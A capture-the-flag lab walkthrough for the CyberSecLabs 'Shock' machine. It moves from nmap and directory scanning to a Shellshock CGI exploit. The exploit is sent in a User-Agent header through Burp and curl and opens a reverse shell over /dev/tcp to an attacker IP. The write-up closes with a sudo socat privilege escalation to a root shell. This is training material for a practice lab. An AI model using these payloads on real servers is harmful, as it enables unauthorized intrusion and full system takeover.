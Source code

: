 # CyberSecLabs : Shock

The name was quite a hint ```Shellshock vulnerability```

```zsh
nmap -sS -p- -r -Pn -T4 -v 172.31.1.3
```
Port 80 would be open. A simple website with hints for ```Shellshock Vulnerability```. 

Do some directory fuzzing.

```zsh
python3 dirsearch.py -u http://172.31.1.3:80 -e r -R 3
```
Presensce of a test-cgi

```
[01:46:21] 200 -    0B  - /cgi-bin/test.cgi
```

Use nmap to cross check:

```zsh
 nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/test.cgi 172.31.1.3
```
You will see it is vulnerable. If your nmap script doesnot work. Do the following.

Here is how to fix it:

```zsh
locate nse | grep shellshock
```
Open it and then edit these parts

```
  if cmd ~= nil then
  cmd = '() { :;}; echo;'..cmd
```

And comment out this line:

```options["header"][cmd] = cmd``` by using ```--``` before it.

Then simply use burp to intercept while you visit http://172.31.1.3/cgi-bin/test.cgi and send it to repeater
Start a listener too

```zsh
rlwrap nc -lvnp 443
```
And in the ```User-Agent``` edit it to this:

```
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.0.40/1234 0>&1
```

You can also do it using ```curl```
```zsh
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.0.40/1234 0>&1' http://172.31.1.3/cgi-bin/test.cgi
```

And you will have a shell. Do a ```sudo -l ``` and you see that you can use socat with sudo without password and it will get executed with root privileges.Socat is a data transfer tool and similar to netcat

Start a ```socat``` listener on a your attacker machine

```zsh
socat - TCP4:172.31.1.3:4444
```
Now on the the victim shell just type this.

```zsh
sudo -u root socat TCP4-LISTEN:4444,reuseaddr EXEC:"/bin/bash"
```

And you will now have a root shell !

